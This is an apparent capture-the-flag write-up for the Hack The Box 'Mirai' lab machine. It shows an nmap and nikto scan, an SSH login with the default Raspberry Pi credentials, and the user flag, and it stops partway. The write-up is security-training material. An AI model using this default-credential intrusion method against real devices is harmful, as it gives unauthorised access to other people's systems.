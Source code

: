 # MIRAI WRITEUP
###### IP-Addres: 10.10.10.48
###### Operation-System: Linux
[Mirai](https://www.hackthebox.eu/home/machines/profile/64)

## RECONNAISSANCE
**NMAP Scan:**
```nmap -sS -sV 10.10.10.48

Starting Nmap 7.60 ( https://nmap.org ) at 2017-10-15 07:28 EDT
Nmap scan report for 10.10.10.48
Host is up (0.023s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
53/tcp   open  domain  dnsmasq 2.76
80/tcp   open  http    lighttpd 1.4.35
2010/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.12 seconds
```
We see, there is a Apache and a SSH server running.
We also know, Mirai was a botnet that spread by only checking IOT-Devices for default login.
So we go on the Webserver first and see: NOTHING. But why shouldn't we run nikto on it just to see if it got something juicy?
Lets see.
**NIKTO SNIPPET**

```
+ OSVDB-3093: /admin/index.php: This might be interesting... has been seen in web logs from an unknown scanner.
```

After we go to the admin/index.php page, we see its a raspberry pi. After googling few minutes, the default login credentials for a raspberry pi are:
*pi:raspberry*
Let's go to SSH and login.
```ssh pi@10.10.10.48
pi@10.10.10.48's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ 
``` 

We got in. Show me what you got.

```pi@raspberrypi:~ $ ls -a
.              .config          .thumbnails           Public
..             .dbus            .xsession-errors      Templates
.Xauthority    .gstreamer-0.10  .xsession-errors.old  Videos
.asoundrc      .gtkrc-2.0       Desktop               background.jpg
.bash_history  .local           Documents             oldconffiles
.bash_logout   .pki             Downloads             python_games
.bashrc        .profile         Music
.cache         .themes          Pictures
pi@raspberrypi:~ $ cd Desktop
pi@raspberrypi:~/Desktop $ ls
Plex  user.txt
pi@raspberrypi:~/Desktop $ cat user.txt
ff837707441b257a20e32199d7c8838d
```
Voilá. we got in. 

**More will come**
